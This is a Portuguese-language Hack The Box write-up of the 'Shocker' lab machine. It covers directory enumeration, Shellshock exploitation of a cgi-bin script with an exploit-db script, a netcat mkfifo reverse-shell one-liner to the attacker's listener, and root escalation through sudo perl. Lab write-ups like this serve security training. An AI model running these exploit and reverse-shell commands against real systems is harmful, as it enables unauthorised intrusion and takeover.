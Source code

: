 ```yaml
---
title:     "Hack The Box - Shocker"
tags: [linux,easy, CVE 2014-6278, CVE 2014-6271, sudo perl]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/1.jpg)

## Enumeration

Conforme venho automatizando o processo inicial de enumeracao e tbm adicionei algumas regras para gerenciar melhor meu tempo.

Inicio com o autorecon e em paralelo vou enumerando manualmente para ganhar tempo, visto que o autorecon dura um pouco mais de uma hora...

Eu terminei essa maquina em 70 minutos e o autorecon ainda nao tinha terminado..

Vamos laaa

`autorecon --single-target 10.10.10.56`

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/2.jpg)

Em paralelo eu comecei fazer outros scan specificos e algumas pesquisas, depois de alguns minutos fui dar uma olhada no results do autorecon e ja encontrei algo interessante

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/3.jpg)

Como podes observar existe o dir `/cgi-bin/` no entanto eu ainda precisava encontrar um `file` com uma das extensoes `.sh, .py, .pl, .cgi ` para o exploit funcionar

entao usando o gobuster, rapidamente encontro o que eu precisava...

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin/ -t 30 -x cgi -t 40`

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/4.jpg)

## Reverse Shell

Um busca rapida no google vc encontra algumas tools paraa automatizar o processo de reverse shell

***reference*** https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/remote/34900.py

`python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.24 lport=53 pages=/cgi-bin/user.sh`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/5.jpg)

Precisa obter uma shell mais funcional, isso eh facil e rapido de fazer...

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 443 >/tmp/f`

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/6.jpg)

## Spawn shell

```
$ python -c 'import pty;pty.spawn("/bin/bash")';
/bin/sh: 1: python: not found
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation

Bom, rapidamente encontro os vetores para escalar privilegios..

usando o `sudo -l` e o comando `id`

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/7.jpg)

voce pode tbm utilizar outras tools que faz isso de forma automatica, lembre-se tempo eh ourooooo..

veja que voce pode executar o `perl`  como root usando o `sudo` e tbm o nosso user faz parte do grupo `110(lxd)` que tbm eh possivel escalar por ele. Nao vou abordar isso aqui,, se vc quiser veja isso https://www.hackingarticles.in/lxd-privilege-escalation/


### Using sudo perl

com o site https://gtfobins.github.io/gtfobins/perl/#sudo voce encontra rapidamente os comandos necessarios para fazer isso...

`sudo /usr/bin/perl -e 'exec "/bin/sh";'`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/8.jpg)


